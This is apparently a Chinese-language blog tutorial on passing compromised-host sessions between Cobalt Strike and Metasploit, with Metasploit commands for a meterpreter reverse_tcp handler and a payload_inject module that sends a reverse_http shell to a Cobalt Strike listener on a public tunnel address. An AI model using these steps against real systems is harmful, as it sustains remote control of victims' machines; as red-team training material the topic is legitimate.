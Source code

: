 **目录**

[当获取了CobaltStrike类型的session后，想派生一个MSF类型的shell](#t0 "当获取了CobaltStrike类型的session后，想派生一个MSF类型的shell")

[当获取了MSF类型的session后，想派生一个CobaltStrike类型的shell](#t1 "当获取了MSF类型的session后，想派生一个CobaltStrike类型的shell")

[当获取了CobaltStrike类型的session后，想派生一个shell给另一台CobaltStrike](#t2 "当获取了CobaltStrike类型的session后，想派生一个shell给另一台CobaltStrike")

* * *

### 当获取了CobaltStrike类型的session后，想派生一个MSF类型的shell

**在MSF上的操作：**

```
use exploit/multi/handler      
set payload windows/meterpreter/reverse_tcp      
set lhost 192.168.10.11      
set lport 4444      
exploit -j
```


![](https://img-blog.csdnimg.cn/20190804182025709.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**在CobaltStrike上的操作**

开启一个监听器Listener，HOST和PORT填我们MSF监听的地址(这里需要注意，如果我们的MSF也是在内网中的话，需要将MSF的端口映射到公网地址)，这里我们将Kali的端口映射到了公网的 server.natappfree.cc:38615 (112.74.89.58:38615 )

![](https://img-blog.csdnimg.cn/2019080418252878.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

这里一定要注意，创建的Listener是foreign!

![](https://img-blog.csdnimg.cn/20190804182659211.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后选中计算机，右键->Spawn，选择刚刚创建的监听器MSF，然后我们的MSF即可看到成功获取了meterpreter会话

![](https://img-blog.csdnimg.cn/20190804182317212.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 当获取了MSF类型的session后，想派生一个CobaltStrike类型的shell

**注：只有meterpreter类型的session才能派生给CS**

我们现在获得了一个MSF的meterpreter类型的[session](https://so.csdn.net/so/search?q=session&spm=1001.2101.3001.7020)，session id为1

首先在CobaltStrike上开启Listener，

![](https://img-blog.csdnimg.cn/20190813110033429.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后在MSF中进行如下操作

```
use exploit/windows/local/payload_inject      
set payload windows/meterpreter/reverse_http      
set DisablePayloadHandler true   #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true      
set lhost x.x.x.x               #cobaltstrike监听的ip      
set lport 14444                 #cobaltstrike监听的端口       
set session 1                   #这里是获得的session的id      
exploit
```


![](https://img-blog.csdnimg.cn/20190821183154128.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

这样，我们的CobaltStrike上就可以收到MSF弹回来的session了。

### 当获取了CobaltStrike类型的session后，想派生一个shell给另一台CobaltStrike

在两台CobaltStrike上都建立另一个CS的监听

![](https://img-blog.csdnimg.cn/20200428152303770.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后在CS上spawn到这个监听即可。

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)